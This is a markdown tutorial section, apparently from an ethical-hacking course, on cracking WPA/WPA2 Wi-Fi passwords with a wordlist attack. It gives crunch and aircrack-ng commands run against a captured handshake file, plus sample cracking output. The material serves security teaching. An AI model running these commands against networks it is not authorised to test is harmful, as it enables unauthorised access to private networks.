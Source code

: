 # Section 06 - Network Hacking - Gaining Access (WEP/WPA/WPA2 Cracking)

## WPA/WPA2 Cracking - Using a Wordlist Attack

Two things are needed to crack WPA/WPA2:
1. 4-way handshake
1. Wordlist

`aircrack-ng` will unpack the handshake and extract the useful information: SP Address, STA Address, AP Nonce, STA Nonce, EAPOL, Payload and MIC. The Message Integrity Code (MIC) is used to verify whether a password is correct or not. `aircrack-ng` will mix all the other details with the password from the wordlist to generate a MIC and check if it matches the network one. If not, move on to the next password until a password succeeds or the wordlist is empty.

Now test the algorithm by appending a known password to your wordlist.

Generate a short wordlist with:
```bash
crunch 6 6 12 -o test.txt -t a@@@@b
```

Append your known password with:
```bash
echo <KNOWN_PASSWORD> >> test.txt
```

Finally, run `aircrack-ng` with:
```bash
aircrack-ng wpa_handshake-01.cap -w test.txt
```

Depending on the size of the wordlist and your processing power, `aircrack-ng` will succeed (or not) after a few seconds or a few hours:
```bash

                              Aircrack-ng 1.5.2 

      [00:00:00] 3/1 keys tested (244.68 k/s) 

      Time left: 0 seconds                                     300.00%

                          KEY FOUND! [ xxxxxxxxxxx ]


      Master Key     : E3 6F E6 0A BD 31 7C 69 B7 72 74 AB 33 C8 9F 4D 
                       37 64 FD 4E C9 65 B5 3D 7E AA 24 18 51 65 41 83 

      Transient Key  : CE 58 CC 44 3C 4E E7 8A 3B 09 81 04 03 B0 5A D6 
                       AE 3F D4 4B 05 78 4E E3 75 69 8B 69 17 C7 4D 45 
                       A9 7D BD 74 17 4A D2 2F C7 20 1C 30 14 DD 6A 93 
                       6D 33 73 8E A4 2D E1 64 89 FC 7B 20 CC 6D 5F 09 

      EAPOL HMAC     : A1 57 CE 9C 26 1A 17 F8 E4 33 CE 3B 8C 9B BF 98
```

